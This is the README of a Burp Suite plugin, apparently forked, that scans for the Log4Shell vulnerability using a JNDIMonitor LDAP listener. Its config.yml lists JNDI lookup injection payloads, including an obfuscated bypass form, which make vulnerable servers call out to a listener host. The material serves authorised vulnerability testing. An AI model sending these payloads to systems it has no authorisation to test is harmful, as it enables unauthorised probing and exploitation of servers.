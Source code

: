 # log4jScan_Modify

![](images/burp.png)

**本插件修改自：https://github.com/pmiaowu/log4j2Scan/commit/d160bf2349cb2f423300469a48de53c75a8031ec**

**根据原插件DnsLogCn模块的判定逻辑，修改为对接 [JNDIMonitor [一个LDAP请求监听器，摆脱dnslog平台]](https://github.com/r00tSe7en/JNDIMonitor) 的`api2=all`接口使用。**

插件详情及编译方法参考：https://github.com/pmiaowu/log4j2Scan

# 插件使用

## 0x01 启动JNDIMonitor监听

参考：https://github.com/r00tSe7en/JNDIMonitor

## 0x02 修改和编译log4jScan_Modify插件

1）下载 `log4jScan_Modify` 源码

2）需要修改`log4j2Scan_modify\src\main\java\burp\DnsLogModule\ExtensionMethod\LdapLogCn.java`中的`ip:port`为`JNDIMonitor`监听的`ip`和`port`

```java
    private String dnslogDomainName = "http://ip:port/?api2=all"; //JNDIMonitor监听http的api2接口
    private String temporaryDomainName = "ip:port"; //JNDIMonitor监听ldap的接口
```

3）`config.yml`默认已经配好，由于对接的是`ldap`监听器，所以已经把不相关的其他协议`payload`注释掉了，如果还有其他的`ldap bypass payload` 可以自己手动加进去。

```yaml
#- "${jndi:dns://dnslog-url/t}"
#- "%24%7Bjndi%3Adns%3A%2F%2Fdnslog-url%2Ft%7D"
- "${jndi:ldap://dnslog-url/t}"
#- "${jndi:rmi://dnslog-url/t}"
- "${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://dnslog-url/t}"
#- "${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://dnslog-url/t}"
```

4）修改完成后就可以开始编译了，生成的插件文件在如下目录。

```
log4j2Scan_modify\target\log4j2Scan
 -/resources/config.yml
 -log4jScan_Modify.jar
```

5）开始被动检测即可，可以看到检测日志。

![](images/burp2.png)

# 感谢

@pmiaowu

@melon